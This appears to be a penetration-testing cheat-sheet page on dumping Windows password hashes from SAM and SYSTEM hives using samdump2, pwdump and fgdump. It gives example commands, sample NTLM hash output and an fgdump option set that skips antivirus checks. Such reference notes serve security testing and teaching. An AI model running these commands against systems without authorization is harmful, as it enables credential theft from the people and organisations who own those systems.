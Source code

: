 ```yaml
---
tags: [hash,windows,password,dump]
---
```

# Extract windows hashes

## References

- https://linux.die.net/man/1/samdump2
- https://github.com/moyix/creddump
- https://www.aldeid.com/wiki/FGDump

## Example of execution

### samdump2

samdump2 (on linux)

```
$ samdump2 system SAM
Administrator:500:7bf4f254b212bb24bad3b435b51404ee:2892d26edf84d7a70e2eb3b9f05c425e:::
*disabled* Guest:501:aad3b435b51569eeaad3b435b51404ee:31d6cfe0d1eae931b73c59d7e0c089c0:::
*disabled* Test_account:1001:aad3b435b51569eeaad3b435b51404ee:80443829565540d434ee643af4c8adc0:::
```

### creddump

creddump (on linux)

```
$ pwdump /tmp/system /tmp/SAM 
Administrator:500:7bf4f254b212bb24bad3b435b51404ee:2892d26edf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51569eeaad3b435b51404ee:31d6cfe0d1eae931b73c59d7e0c089c0:::
Test_account:1001:aad3b435b51569eeaad3b435b51404ee:80443829565540d434ee643af4c8adc0:::
```

### fgdump

fgdump (on windows): very verbose (`-vv`), keeps the pwdump/cachedump going even if antivirus is in an unknown state (`-k`), will not attempt to detect or stop antivirus, even if it is present (`-a`), logs all output to logfile (`-l`), runs fgdump with the two parallel threads (`-T 2`).

```
fgdump.exe -vv -k -a -l -T 2
```

Will test for the presence of antivirus without actually running the password dump:

```
C:\Users\noraj\Downloads\fgdump.exe -t
fgDump 2.1.0 - fizzgig and the mighty group at foofus.net
Written to make j0m0kun's life just a bit easier
Copyright(C) 2008 fizzgig and foofus.net
fgdump comes with ABSOLUTELY NO WARRANTY!
This is free software, and you are welcome to redistribute it
under certain conditions; see the COPYING and README files for
more information.

--- Session ID: 2019-06-15-20-27-38 ---
Starting dump on 127.0.0.1

** Beginning local dump **
OS (127.0.0.1): Microsoft Windows Unknown Professional (Build 9600) (64-bit)

-----Summary-----

Failed servers:
NONE

Successful servers:
127.0.0.1

Total failed: 0
Total successful: 1
```
